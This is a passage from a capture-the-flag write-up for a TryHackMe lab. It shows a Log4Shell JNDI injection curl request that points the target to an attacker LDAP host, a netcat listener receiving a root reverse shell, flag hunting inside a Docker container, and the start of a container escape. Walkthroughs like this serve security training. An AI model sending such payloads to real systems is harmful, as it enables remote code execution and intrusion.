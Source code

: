 ```bash
curl -X GET  http://VICTIM-IP/~logs/log4j/ -H 'X-Api-Version: ${jndi:ldap://Attacker-IP:1389/Exploit\}'
```
And we get a shell back on our nc

```bash
┌──(root💀kali)-[~/thm/Lumberjackturtle]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.8.106.23] from (UNKNOWN) [10.10.244.37] 42387
whoami
root
```
## user.txt 🚩

So we are user root. Hmm Wierd !

## Docker_env

Listing all the files in the `/` directory we see a `.dockerenv `  which means we are in a `docker container` .

First lets grab the **user.txt flag* before escalating our privileges.
**user flag** was neither in the `/home` directory nor in the `/root` directory in the docker container. On further enumeration I found the `user flag` in `/opt` 

```
# cd /opt
/opt # ls -la
total 12
drwxr-xr-x    1 root     root          4096 Dec 11 21:04 .
drwxr-xr-x    1 root     root          4096 Dec 13 01:26 ..
-rw-r--r--    1 root     root            19 Dec 11 21:04 .flag1
/opt # cat .flag1
THM{LOG*****W}
```
# root.txt
---------------

## docker escape

Running `fdisk` command shows that the `/` filesytem of the machine is mounted in `/dev/xvda1` .

```
# fdisk -l
Disk /dev/xvda: 40 GiB, 42949672960 bytes, 83886080 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x3650a2cc

Device     Boot Start      End  Sectors Size Id Type
/dev/xvda1 *     2048 83886046 83883999  40G 83 Linux


Disk /dev/xvdh: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes


Disk /dev/xvdf: 1 GiB, 1073741824 bytes, 2097152 sectors
```